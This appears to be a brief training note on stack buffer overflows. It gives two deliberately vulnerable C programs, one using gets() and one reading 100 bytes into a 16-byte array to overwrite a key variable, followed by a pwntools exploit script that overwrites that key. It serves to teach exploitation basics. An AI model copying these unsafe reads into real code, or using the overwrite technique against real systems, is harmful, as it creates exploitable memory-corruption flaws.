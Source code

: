 # D1-4
## Buffer Overflow

### 範例
範例一
```c
int main(){
  char buffer[8];
  gets(buffer);
  puts(buffer);
  return 0;
}
```

範例二
```c
//bof_var.c
#include <stdio.h>

int main() {
    int key = 1234;

    puts("Please enter your name:");
    char name[16];
    read(0, name, 100);

    if(key == 0xfaceb00c){
        puts("H...Hacker!!!!");
    }
    return 0;
}
```

Exploit
```py
from pwn import *

r = process("./bof_var")

r.recvuntil(":\n")

r.sendline('a'*28 + p32(0xfaceb00c))

r.interactive()
```